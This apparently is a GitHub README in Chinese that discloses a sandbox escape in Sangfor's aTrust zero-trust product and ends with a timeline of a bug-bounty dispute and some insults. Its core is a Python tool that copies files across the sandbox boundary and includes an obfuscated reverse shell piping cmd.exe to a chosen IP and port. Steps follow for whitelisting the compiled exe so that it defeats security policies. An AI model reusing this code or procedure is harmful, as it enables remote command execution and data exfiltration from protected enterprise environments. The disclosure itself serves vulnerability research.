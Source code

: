 # SXF_aTrust_sandbox_bypass
深信服零信任沙箱逃逸( 正常功能，所以我也不打算再提交CNVD, 给使用这款产品的用户介绍下这个神奇的功能效果 ）

![Visitor Count](https://profile-counter.glitch.me/SXF_aTrust_sandbox_bypass/count.svg)

# 大聪明
https://github.com/DaxiaSec/SXF_aTrust_sandbox_bypass/issues/10
https://github.com/DaxiaSec/SXF_aTrust_sandbox_bypass/issues/12

# 一、功能介绍
* 环境：鹏程众测
* 类型：sandbox bypass
* 危害：无，正常业务功能罢了
* 权限：登陆后

## 1. 将如下py编译为exe
```python
import string
import random

def random_string(length):
    return ''.join(random.choice(string.ascii_letters) for m in range(length))

def readanyfile(filepath):
    with open(filepath,"rb") as f:
        contentbytes = f.read()
    print(contentbytes)
    return contentbytes

def writeanyfile(filepath, contentbytes):
    contentbytes = contentbytes
    with open(filepath,"wb") as f:
        f.write(contentbytes)

def reverseshell(ip,port):
    try:
        (lambda __y, __g, __contextlib: [[[[[[[(s.connect((ip, port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))
    except:
        pass


def main():
    c = input("[1] 文件逃逸 [2] 反弹shell [3]退出:\n")
    if c == "1":
        print("[1-1] 验证：数据进入沙箱")
        in_sand = input("沙箱内文件路径:\n")
        writeanyfile(in_sand, "flag_{}_".format(random_string(20)).encode())
        print("请确认沙箱内{}文件写入flag\n\n".format(in_sand))
        
        print("[1-2]验证：数据出沙箱")
        out_sand = input("沙箱外文件路径:\n")
        writeanyfile(out_sand,readanyfile(in_sand))
        print("请确认沙箱外{}文件与沙箱内文件数据一致\n\n".format(out_sand))
    elif c == "2":
        ip = input("IP:\n")
        port = input("PORT:\n")
        reverseshell(ip,int(port))
    elif c=="3":
        exit()

while True:
    main()
```

pyinstaller -F taoyi_yanshi.py

## 2. 在安装名单配置上编译出的taoyi_yanshi.exe
功能名称是: 程序安装白名单

功能描述是(此处一字不漏): 此功能可用于无痕模式时保护数据不被自动清除；也可用于解决程序在工作空间安装后使用异常问题(名单内的安装包在工作空间安装时，释放的文件会落盘到个人空间，安装完成后程序产生的数据会落盘到工作空间，即程序安装在个人空间，但运行仍在工作空间)

你可能会好奇，在登录后台有专门一页可以配置安全策略，如'文件导入导出控制'，'剪切板拷贝控制'等，那儿不是配置安全策略的？
想多了，根本不需要那么复杂，配置安装名单比配置策略好用多了，而且其可以让安全策略完全失效，毕竟哪位睿智能想到避免清空数据的功能可以穿越沙箱。
是的，不要怀疑自己，就是这么牛逼。


## 3. 效果
* 程序可以沙箱内外任意写
* 程序落地数据，明文可读
![](1.png)
![](2.png)

# 二、交涉过程
* 5.10 发现问题
* 5.14 沟通情况，电话说需证明反弹shell, **给出了收录价格**
* 5.18 提交漏洞详情，证明反弹shell
* 5.20-5.30 争议
* 5.30 发群里仲裁
* 5.30 - 6.10 说价格不合适，现在是讨论价格？是你们压根不认为是漏洞，要吃掉吧，然后不回消息


### 仲裁情况？
![](3.png)

群聊完整图：

![](z1.jpg)

![](z2.jpg)

上面就是完整的聊天记录，请问哪里看出来有群友否认这个不是漏洞？？

### 为什么不让小团体仲裁？

赛博大佬说用github都是卖国的，小心赛博大佬黑了你们。

留个位置先，这位更是重量级傻狗。

![](4.jpg)

